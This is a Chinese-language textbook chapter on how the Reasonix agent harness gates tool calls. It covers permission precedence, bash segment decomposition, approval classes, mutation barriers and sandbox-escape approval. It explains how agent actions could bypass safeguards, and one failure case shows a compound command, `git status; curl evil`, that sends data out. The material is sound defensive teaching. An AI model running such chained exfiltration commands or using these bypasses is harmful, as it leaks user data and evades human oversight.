


## 一句话结论

Reasonix 把工具安全拆成“纯规则 + 交互门 + 强制边界”三件套：`permission.Policy` 是无 I/O 的纯函数（deny > session allow > ask > allow > fallback），`Gate` 用 Approver 解析 ask，OS sandbox 提供最终物理边界。执行序列固定为 parse → tool.before → policy 序列（Plan/Contextual/Preflight/Delivery/Barrier/AutoGuard/Permission）→ write lease → execute；权限未通过前绝不获取写租约。

## 上一章遗留问题

F-R1 说明 Registry 收敛了工具入口；M-06/M-07 给出了理想审批与沙箱。F-R3 回答：Reasonix 的 Policy 如何裁决 bash 这类动态输入？capability proxy 解析后为什么必须重过屏障？沙箱启动失败时如何不静默裸跑？

## 本章解决什么矛盾

纯静态 allowlist 无法覆盖 bash 组合命令；完全人工确认又拖垮自动化。Reasonix 的取舍是：

- **规则求值保持纯函数**：无 I/O、可穷举测试；
- **Bash 分解**：复合命令拆成 segments，每段独立裁决；
- **approval class**：reusable/exact/require-human 区分记忆与重放策略；
- **visual warning 与 enforcement 分离**：glob 模式只做 UI 高亮；
- **escape 是显式一次性决策**：沙箱启动失败默认 fail closed。

直觉上这是机场安检：规则手册（Policy）先机械比对，可疑再叫人（Approver），最后还有登机口闸机（sandbox）。失效边界是：手册写不全时靠人，人会累——所以 require-human 类永远回到 Ask 而非自动放行。

## 核心不变量

1. **Decision 三态**：Allow / Ask / Deny；未知配置字符串保守解析为 Ask。
2. **优先级固定**：deny > session allow(exact) > ask > allow(exact) > fallback（reader=Allow，writer=Mode）；Deny 在任何模式都生效。
3. **多 subject 合取**：move_file 等操作的每个 subject 都必须安全，整体才 Allow。
4. **权限先于租约**：Permission 必须在任何 write lease 获取前完成。
5. **屏障复查**：use_capability 等 proxy 在解析出真实目标后重过 mutation dependency barrier。
6. **逃逸显式**：EscapeApprover 为 nil 时 fail closed；session 级已批准可用 EscapeSessionChecker 免重复询问。

失效边界在于 shellsafe 分类器覆盖率：无法证明 read-only 的命令一律走 writer 路径。宁可错杀并行度，不可漏放副作用。

## 理想模型映射

| 理想概念 | Reasonix 实现 |
| --- | --- |
| 名称解析 | `Registry.ResolveCall`：exact 优先，唯一 MCP 别名才解析，歧义返回候选 |
| 结构校验 | 工具自身 `Execute` 前置 JSON unmarshal 与必填检查 |
| 策略门 | `permission.Policy.DecideSubjects` 纯函数 |
| 审批 | `Gate` + `Approver`；nil approver 下 Ask→Allow 的宿主显式取舍 |
| 强制边界 | confineWrite + OS sandbox Spec |

## 初学者主线

把一次工具调用当过关：

1. 护照核验（ResolveCall）——名字不存在或重名不放行；
2. 申报物品（效果分类）——bash 打开包裹看内容；
3. 海关规则（Policy）——deny 名单最优先，临时通行证（SessionAllow）其次，然后问询（Ask）、白名单（Allow）；
4. 特殊通道（Auto Guard / Delivery）——恢复预算耗尽后不再放行新变更；
5. 领钥匙（write lease）——只有获准写入的人才能锁路径；
6. 安检门（sandbox）——就算前面都过了，物理边界仍然生效。

### Bash 的三类审批

Reasonix 把 bash 命令分成 approval class：

1. **reusable**：已知可复用的只读形态，规则命中即可 Allow；
2. **requiresExact**：需要精确字面匹配（Literal rule），防止通配符过宽；
3. **requireHuman**：无论 mode 如何都倾向 Ask；mode=Deny 则直接 Deny；仅当显式开启 AllowDynamicBash 且 Mode=Allow 才免问。

复合命令用 `DecomposeBashCommand` 拆段，逐段裁决：任一段 Deny 即整体 Deny；有 Ask 则整体不低于 Ask。

### SessionAllow 的位置

SessionAllow 是前端/会话的临时授权（类似 `--allowed-tools`）。它排在 Deny 之后、配置 Ask 之前：能跳过配置里的 Ask，但永远跳不过 Deny。对 bash 还有额外限制——exact 形式才可直接 Allow，非 exact 还要求该命令不可分解为 segments，避免宽泛通配放行动态 shell。

### ExplicitlyDenies 的语义

它只报告配置化 deny 规则的命中，故意排除 fallback Mode。原因写在注释里：installing or explicitly authorizing an MCP server remains the final allow decision——不能因为 fallback 是 Ask 就认为 MCP server 未被明确批准。

## 机制深拆

### 1. 纯函数 Policy 与交互 Gate 分离

包注释给出理由：Keeping rule evaluation pure makes it trivially testable and keeps the agent independent of how "ask" is resolved。Agent 只依赖 Decision，不关心弹窗还是 CLI prompt。

这带来三个工程收益：

1. 决策矩阵可以表格化测试；
2. headless 与 interactive 共享同一套规则；
3. Approver 替换不影响规则语义。

失效边界是：纯函数看不到运行时状态（例如文件已被外部修改），这类检查仍需 executeOne 的 contextual gate 补位。

### 2. resolveToolPolicy 的顺序为什么不可交换

源码注释钉死两条约束：

1. Permission must complete before any write lease——否则拒绝后还要释放租约，扩大竞态窗口；
2. mutation barrier 在 proxy resolution 后 re-check——Provider-visible proxies 如 use_capability 会先声明 ReadOnly()==true，若只在批次前检查会被绕过。

因此顺序是 Plan/proxy → Contextual → Preflight → Delivery → Barrier → RecoveryAndPermission。

### 3. Auto Guard 的位置与克制

Auto Guard 位于权限之前，但它的职责被限定为建议或阻断（recovery episode 预算耗尽后的收口），而不是替用户决定执行风险。它也不持有写租约等待卡片——等待期间释放资源，减少阻塞。这与 M-06 的 approval 语义互补：Guard 管“还要不要继续试”，Gate 管“这个动作能不能做”。

### 4. 沙箱逃逸的三层接口

`EscapeRequest` 是 one-shot 请求：Command + Args + Reason。三个接口分层：

- `EscapeApprover`：问用户是否允许本次 unconfined 重跑；Nil means fail closed；
- `EscapeSessionChecker`：查询本会话是否已批准过同类逃逸，避免重复打扰；
- `WithEscapeApprover`：把 approver 盖到 ctx 上，工具侧类型断言取用。

关键设计：逃逸是 per-command 显式决策，不是全局开关；会话级记忆也只是免重复询问，不改变单次请求的审计粒度。

### 5. 结果投影分离

`DetailedResult` 让同一执行产出三种视图：model text（有界）、images（结构通道）、ShellExecution（host/UI 元数据）。RawContent 保完整原文供分页。事件层 ToolResult 再带 truncated/truncMsg/workspaceMutation。模型、UI、审计各取所需，互不污染。

## 反例与故障模式

1. **通配 allow 放行动态 bash**
   - 触发：allow 规则写 `bash(git *)`。
   - 因果：`git status; curl evil` 的第一段命中，第二段外发数据。
   - 正确边界：非 reusable 类要求 exact 或走 segment decomposition 全段裁决。
2. **SessionAllow 绕过配置 Deny**
   - 触发：以为会话授权高于一切。
   - 因果：永久禁用的危险命令被临时放行。
   - 正确边界：Deny 始终第一优先。
3. **proxy 声明 ReadOnly 绕屏障**
   - 触发：use_capability 包装真实 writer，schema 层 ReadOnly=true。
   - 因果：mutation 失败后同批 verification 仍跑，假绿。
   - 正确边界：resolve 后重查 barrier。
4. **Ask 无 approver 变 Deny 导致误判**
   - 触发：headless 部署未配 approver。
   - 因果：把“无人值守”误当“用户拒绝”，审计失真。
   - 正确边界：Reasonix 选择 nil approver 时 Ask→Allow 的显式取舍由宿主承担，并在部署文档标注。
5. **多 subject 只查一个**
   - 触发：move_file(src, dst) 只匹配 src 规则。
   - 因果：dst 在禁区也被移动。
   - 正确边界：every subject safe before allowed。
6. **权限后取租约**
   - 触发：先 ReserveParentWrite 再问用户。
   - 因果：等待期间父级路径被锁，其他合法任务饿死。
   - 正确边界：permission 先行。
7. **沙箱失败静默裸跑**
   - 触发：bwrap 缺失时 catch 后继续。
   - 因果：受限命令全权限执行。
   - 正确边界：fail closed 或 EscapeApprover 显式放行。
8. **danger glob 当黑名单**
   - 触发：运维以为 UI 没高亮就安全。
   - 因果：变形命令（引号、变量）未被提示即被执行。
   - 正确边界：pattern 仅提示；enforcement 在 policy/shellsafe。

## 一条完整因果链

模型发出 `bash {"command":"git add -A && git push --force origin main"}`：

1. ResolveCall 命中内置 bash；parse 阶段循环防护无命中。
2. 效果分类：shellsafe 判定非 read-only（push 写远端），进入 writer 路径。
3. Policy.DecideSubject 进入 bash 分支：classifyBashApproval 判定 requireHuman（force push 属危险类）。
4. DecomposeBashCommand 拆出两段：`git add -A` 与 `git push --force ...`。第一段可能 Allow，第二段命中 dangerous pattern 并触发 Ask/Human 路径。
5. decideBashSegments 合成整体 Decision=Ask（不低于任何段的 Ask）。
6. Gate 弹出审批，UI 同时展示 BashDangerWarning “force push”标签帮助人类快速识别。
7. 用户拒绝。reply allow=false 回到 executeOne，生成 blocked/denied outcome，配对 RoleTool 结果写入 Session；不获取写租约，workspace 无变化。
8. 审计记录包含 matched rule（force push）、decision path 与用户选择；下一轮模型看到明确的拒绝观察，改用普通 push 或询问远端策略。

这条链展示了“分解—分类—合成—人审—配对结果”的完整闭环，以及视觉提示如何辅助而非替代规则。

## 设计取舍

| 方案 | 收益 | 代价 | 适用 |
| --- | --- | --- | --- |
| 纯函数 Policy | 可测、可组合 | 无法感知运行时状态 | 静态规则的主体 |
| Approver 接口化 | headless/interactive 同构 | nil 取舍需文档 | 双模产品 |
| Bash segment decomposition | 精细裁决组合命令 | 解析器维护成本 | shell 类工具 |
| Literal vs glob rules | 防通配过宽 | 用户教育成本 | 记忆具体命令 |
| proxy resolve 后重查屏障 | 堵住 capability 绕过 | 多一次分类 | 有 use_capability 类派发 |
| escape per-command approval | 最小授权 | 打断体验 | 沙箱启动失败的兜底 |
| whole-workspace opaque claim | 不漏检副作用 | 降低并行度 | bash/MCP 不可枚举时 |

迁移路径：先把工具判定抽成纯函数并建测试矩阵；再加 SessionAllow 与 precedence 文档；然后为 shell 类引入分解与 approval class；最后接沙箱逃逸审批。不要先写 UI 警告，它最容易给人虚假安全感。

## 框架实现对照

以下路径均绑定固定快照；行号已在当前 `external/` 树核对。

| 理想概念 | Reasonix 实现 | 关键锚点 |
| --- | --- | --- |
| 纯函数规则 | Policy.Decide/DecideSubject/DecideSubjects | `internal/permission/permission.go:186-270` |
| 三态与保守解析 | Decision Allow/Ask/Deny；ParseDecision unknown→Ask | `internal/permission/permission.go:17-53` |
| 规则形状 | Rule Tool/Subject/Literal；ParseRule 兼容 legacy `=literal` | `internal/permission/permission.go:55-80` |
| 优先级 | Deny > SessionAllow(exact/bash 受限) > Ask > Allow(exact) > fallback | `internal/permission/permission.go:190-269` |
| 多 subject 合取 | DecideSubjects every-subject-safe | `internal/permission/permission.go:186-194,280-320` |
| Bash 分类 | classifyBashApproval + DecomposeBashCommand + decideBashSegments | `internal/permission/permission.go:212-254,280-320` |
| 明确拒绝语义 | ExplicitlyDenies 仅看配置 deny，不含 fallback | `internal/permission/permission.go:196-210` |
| 门控序列 | resolveToolPolicy 六段顺序；权限先于租约 | `internal/agent/execute_one.go:137-163` |
| Contextual gate | ProviderVisible 执行时复查 | `internal/agent/execute_one.go:165-178` |
| 沙箱逃逸 | EscapeRequest/Approver/SessionChecker；nil fail closed | `internal/sandbox/escape.go:8-37` |

### Policy：优先级的精确实现

包注释首先立宪：The core is a pure Policy (rule evaluation, no I/O); a Gate wraps a Policy with an optional interactive Approver。Decision 三态中 Ask 的定义值得注意——defers to an interactive Approver (or, with none, resolves to Allow)；而 ParseDecision 对未知/空输入 defaults to Ask，注释称之为 conservative posture for a writer fallback（`external/DeepSeek-Reasonix/internal/permission/permission.go:1-5,20-27,42-53`）。两条规则共同构成“配置错误偏保守、缺 approver 由宿主担责”的双保险。

Rule 支持 `ToolName`、`ToolName(glob)` 与 legacy `ToolName=literal` 三种写法；Literal 匹配让 remembered concrete command 中的 `*`/`?` 保持字面义，不会被当成通配符（`:55-72`）。

`DecideSubjects` 注释给出总纲：Calls with multiple subjects must be safe for every subject before the call is allowed. Precedence: deny > ask > allow > fallback (Allow for readers, Mode for writers). SessionAllow sits between deny and configured ask rules（`:186-191`）。bash 分支在此基础上叠加 approvalClass：requiresExact 使通配 allow 失效、requiresHuman 使 mode=Deny 直接 Deny、仅显式 AllowDynamicBash+Mode=Allow 才免问（`:214-246`）。segments 存在时交给 decideBashSegments——任一段 Deny 即 Deny，存在 Ask 则整体至少 Ask（`:232-234,280-320`）。

`ExplicitlyDenies` 的注释解释了一个容易被误解的设计：它 deliberately excludes the fallback Mode so installing or explicitly authorizing an MCP server remains the final allow decision（`:196-198`）。也就是说“没配规则所以走 fallback”与“明确 deny”在 MCP 授权流程里是两种不同事实。

### executeOne：顺序即正确性

F-R2 已核对 executeOne 的 parse→policy→prepare→finish 主干。本章补充两个安全关键注释：

1. resolveToolPolicy 头注：Permission must complete before any write lease（`external/DeepSeek-Reasonix/internal/agent/execute_one.go:137-138`）。
2. applyMutationDependencyBarrier 前的注释：After proxy resolution, re-apply the batch mutation barrier using the real target classification. Provider-visible proxies such as use_capability advertise ReadOnly()==true before resolution and would otherwise slip past the pre-run skip pass（`:152-155`）。

这两条注释把“顺序不是风格问题而是正确性问题”钉进了源码。

### Sandbox escape：显式的一次性越界

`EscapeApprover` 注释只有一句但信息量极大：asks the user whether one command may run unconfined after the OS sandbox failed to start. Nil means fail closed（`external/DeepSeek-Reasonix/internal/sandbox/escape.go:16-20`）。`EscapeSessionChecker` 补充会话内免重复询问的能力（`:22-26`），而请求对象携带 Command/Args/Reason 保证审计粒度（`:8-14`）。WithEscapeApprover 对 nil approver 直接原样返回 ctx——不注册即不启用，杜绝隐式默认允许（`:30-37`）。

## 实现精妙之处

1. **纯函数与交互分离**：Policy 无 I/O，使“规则矩阵”成为一等测试资产。
2. **ParseDecision 默认 Ask**：配置拼错的代价是多问一次，而不是静默放行。
3. **Literal 规则防通配漂移**：记住的具体命令不会因包含 `*` 而意外变成通配。
4. **SessionAllow 卡位设计**：能越过配置 Ask 但越不过 Deny，精确表达“会话临时授权”的语义。
5. **Bash 三类 approval + segment 合成**：复杂命令的安全等于最弱一段，合成规则简单可靠。
6. **ExplicitlyDenies 与 fallback 分离**：保护“安装/授权 MCP server”这一最终人类决定不被 fallback 语义稀释。
7. **Barrier 在 proxy resolve 后复查**：承认静态声明的不可信，用第二次检查封堵伪装 ReadOnly。
8. **Escape 三接口**：请求、审批、会话记忆各司其职，nil 即 fail closed。

## 自检与面试追问

1. 如果要在 Reasonix 中新增一种“只允许读 Git 状态”的规则，应该落在 shellsafe 分类、Policy 规则还是 PlanModeClassifier？为什么？
2. SessionAllow 为什么放在 Deny 之后、Ask 之前？把它提到 Deny 之前会破坏哪些场景？
3. 一个 bash 命令被 DecomposeBashCommand 拆成 5 段，其中 2 段 Allow、2 段 Deny、1 段 Ask，最终 Decision 是什么？为什么？
4. use_capability 声明 ReadOnly=true 但真实目标是 writer。列出所有会拦截它的层，以及如果全部移除会发生什么。
5. 沙箱逃逸的 session checker 是否违反 M-06“fresh decision 不能被记住”？两者边界在哪里？
6. 对照你的 Harness：策略求值是否纯函数？如果不是，哪些测试写不出来？

## 交给下一章的问题

Reasonix 三章至此完成：架构地图、Run 循环、工具与审批互相咬合。下一簇转向 DeepSeek Harness——F-D1《DeepSeek Harness 架构总览》将展示另一套以 scoped plugin、append-only event log 和 monotonic guard 为骨架的实现。

## 相关页面

- [教材目录](../../TOC.md)
- [Reasonix 架构总览](./overview.md)
- [Reasonix Run 生命周期](./run-lifecycle.md)
- [审批模型](../../02-harness-mechanics/approval.md)
- [Sandbox 与权限](../../02-harness-mechanics/sandbox.md)
- [术语表](../../09-glossary/glossary.md)
